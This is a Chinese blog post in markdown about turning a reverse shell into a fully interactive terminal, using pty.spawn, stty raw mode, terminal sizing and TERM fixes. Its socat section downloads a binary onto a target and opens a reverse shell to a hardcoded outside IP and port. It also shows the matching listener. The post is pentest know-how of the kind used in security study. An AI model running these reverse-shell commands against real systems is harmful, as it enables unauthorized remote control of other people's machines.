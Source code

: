 ```yaml
---
layout: post
toc: true
title: "「BASH」:谈谈完全交互式的终端"
author: Bin4xin
categories:
    - blog
    - BASH
    - 笔记
permalink: /blog/2020/get/TTY/terminal/
---
```


写在前面，本方法适用于在反弹shell后把shell提升为完全交互式shell，也是自己实战了一段时间后摸索出来的，记一下笔记；
# 完美的交互式shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
//$ export TERM=xterm-256color
```

同样的，我在网上也找到另外一种方式：`script /dev/null/`这样：同理，也可以通过同样的方式获取到交互式shell：
```bash
script /dev/null
Ctrl-Z
stty raw -echo
fg
reset
```
这样我们在终端某个命令时，输入`ctrl+c`或者`ctrl+z`就不会直接中断shell。
这里转载搜到信息来进行展示，供大家参考：
```bash
stty -echo	#禁止回显，当在键盘上输入时，并不出现在屏幕上
stty echo 	#打开回显
stty raw 	#设置原始输入
stty -raw	#关闭原始输入
bg			#将一个在后台暂停的命令，变成继续执行
fg			#将后台中的命令调至前台继续运行
jobs		#查看当前有多少在后台运行的命令
ctrl+z 		#可以将一个正在前台执行的命令放到后台，并且暂停
clear  		#这个命令将会刷新屏幕，本质上只是让终端显示页向后翻了一页，如果向上滚动屏幕还可以看到之前的操作信息。
reset 		#这个命令将完全刷新终端屏幕，之前的终端输入操作信息将都会被清空
```
来源：<a href="https://saucer-man.com/information_security/233.html#cl-3">实现交互式shell的几种方式</a>

# socat

目标机

把socat上传到目标机器上或者直接下载
```bash
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat

vuln_ip:
chmod +x /tmp/socat
./tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:47.52.233.92:4444
--
attack machine
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

# stty行列数:)
有的时候终端写入的命令太长，而终端行列不够长来显示所以会导致命令重叠、错杂，我们可以用下面的方法来让我们用这个shell用的更舒服点；

先看看自己机器上的stty配置信息:
```bash
root@ubuntu20-free:~# stty -a
speed 9600 baud; rows 35; columns 148; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R;
werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
`speed 9600 baud; rows 35; columns 148; line = 0;`这一段是我们所需要的信息；
```bash
rows 35; columns 148
配置我们的shell如下：
$ stty rows 35 cols 148
```

# 其他痛点
有的时候感觉terminal上太多命令了，用着用着会习惯性输入命令`clear`，然后你们就会看到如下现象：
```bash
# clear

TERM environment variable not set.

# set |grep TERM

TERM=dumb
```
如上，看term的配置信息，最后解决办法如下，设置term为`xterm`就可以了。
```bash
# export TERM=xterm

# set |grep TERM
TERM=xterm
_=TERM
```
之后就可以随意的clear清除命令辣！